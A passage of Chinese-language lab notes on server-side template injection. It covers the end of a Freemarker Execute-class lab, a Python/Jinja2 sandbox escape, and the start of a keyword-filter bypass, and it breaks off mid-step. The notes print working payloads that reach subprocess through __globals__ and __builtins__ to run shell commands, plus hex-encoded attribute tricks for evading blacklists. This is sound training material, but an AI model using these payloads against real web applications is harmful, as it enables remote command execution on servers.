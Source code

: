 #### 知识点

- **Freemarker 语法**：使用 `${}` 和 `<#assign>` 标签。
- **危险类调用**：通过 `Execute` 类执行系统命令。

------

### 实验 4: 沙箱绕过 (Python 沙箱)

#### 目标

在禁用 `os` 模块的沙箱中执行命令。

#### 解题步骤

1. **探测限制**：

   - 尝试调用 `os.system`，返回错误提示 `os is undefined`。

2. **寻找替代对象**：

   - 利用 `subprocess` 模块绕过：

     ```
{{ self.__init__.__globals__.__builtins__.__import__('subprocess').check_output('ls', shell=True) }}  
     ```

   - 或通过 `url_for`（Flask 上下文）泄露路径：
   
     ```
  {{ url_for.__globals__ }}  # 获取全局对象链  
     ```

3. **结果验证**：

   - 成功列出目录或执行命令。

#### 知识点

- **沙箱绕过**：利用未禁用的模块（如 `subprocess`）或框架上下文对象。
- **全局对象探测**：枚举 `__globals__` 寻找可用函数。

------

### 实验 5: 过滤绕过 (黑名单过滤)

#### 目标

绕过对 `__`、`.`、`os` 等关键字的过滤，执行命令。

#### 解题步骤

1. **编码绕过**：

   - 使用十六进制编码关键字（如 `__init__` → `\x5f\x5finit\x5f\x5f`）：

     ```
  {{ self|attr("\x5f\x5finit\x5f\x5f")|attr("\x5f\x5fglobals\x5f\x5f") }}  
     ```
